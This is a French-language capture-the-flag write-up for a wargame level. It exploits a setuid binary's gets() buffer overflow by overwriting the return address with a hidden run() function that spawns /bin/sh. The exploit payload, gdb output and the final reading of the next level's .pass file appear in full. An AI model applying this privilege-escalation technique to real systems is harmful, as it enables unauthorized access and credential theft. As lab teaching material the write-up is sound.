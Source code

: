 ## Comportement
- J'ai des droits `level1` que je peux verifier en tapant `whoami`
- Un binaire est present avec des droits differents : `-rwsr-s---+ 1 level2 users  5138 Mar  6  2016 level1*`
En exécutant le binaire (`./level1`), on observe:
- qu'il attend un input de notre part.
- qu'il exit juste apres notre input.
- qu'il segfault `Segmentation fault (core dumped)` si l'input est trop long.

→ Peut-être un segfault à exploiter ?


## Analyse
En analysant le binaire (`gdb ./level1`) on observe:
- La fonction appelle "gets" qui n'est pas securisé en cas de buffer overrun (voir `man gets`).
  ```shell
  (gdb) disas main
  ...
  0x08048490 <+16>:	call   0x8048340 <gets@plt>
  ...
  ```
- Il existe une fonction `run()` qui n'est pas appelé dans `main()` : 
  ```shell
  (gdb) i functions
  ...
  0x08048444  run
  0x08048480  main
  ...
  ```
- Dans la fonction `run()` il y a un appel systeme : 
  ```shell
  (gdb) disas main
  ...
  0x08048472 <+46>:	movl   $0x8048584,(%esp) # argument envoye a la fonction system() en dessous
  0x08048479 <+53>:	call   0x8048360 <system@plt>
  ...
  ```
- Il suffit d'examiner l'adresse du parametre envoye a la fonction `system()` 
(situe une ligne au dessus) pour constater qu'on execute `/bin/sh`. 
Ce qui est une technique courante pour lancer un shell interactif. 
  ```shell
  (gdb) x/s 0x8048584
  0x8048584:	 "/bin/sh"
  ```


## Résolution
- On va overflow la valeur de la commande `ret` avec l'adresse de la fonction `run()` pour que quand la 
commande `ret()` sera execute, c'est `run()` qui sera appelee et donc notre appel systeme sera execute
ouvrant ainsi un shell interactif.
- Il faut trouver l'offset de l'`eip` (le pointeur du jeu d'instruction en cours) pour savoir de 
combien il faut overflow le buffer. Dans `main()` on a vu que le buffer est de 80 bytes. 
(`0x08048486 <+6>:		sub    esp,0x50`). On obtient bien un segfault : 
```shell
$ python -c 'print "A" * 80' | ./level1
Segmentation fault (core dumped)
```
- Maintenant il faut gerer le padding, c'est a dire soustraire suffisament de bytes pour placer l'adresse 
de la fonction `run()` (`0x08048444`) que l'on veut inserer. Elle prend 4 bytes. On obtient encore un 
segfault, cette fois ce n'est pas normal car `run()` aurait du etre appele. 
```shell
$ python -c 'print "A" * 76 + "\x08\x04\x84\x44"' | ./level1
Segmentation fault (core dumped)
```
- En regardant bien la stack, on voit que l'adresse est inscrite en little endian, il faut donc l'inverser.
La fonction `run()` ets bien appele ! On le voit grace au print "Good... Wait what?" mais ou est le shell ? 
```shell
$ python -c 'print "A" * 76 + "\x44\x84\x04\x08"' | ./level1
Good... Wait what?
Segmentation fault (core dumped)
```
- Le shell a bien ete ouvert mais il exit car son process parent exit. Il existe un moyen de laisser stdin open (en utilisant `- |`). On va donc inscrire le payload dans un fichier, puis faire un `cat` de ce fichier en utilisant notre trick : 
```shell
python -c 'print "A" * 76 + "\x44\x84\x04\x08"' > /tmp/payload
cat /tmp/payload - | ./level1
Good... Wait what?
```
- Un shell s'ouvre avec de nouveaux privilèges : en effet, si l'on tape `whoami`, on obtient `level2`.
- Il ne reste plus qu'à :
  - récupérer le password (`cat /home/user/level2/.pass`)
  - quitter le shell (`exit`)
  - et passer au level2 (`su level2`) en renseignant ce password.
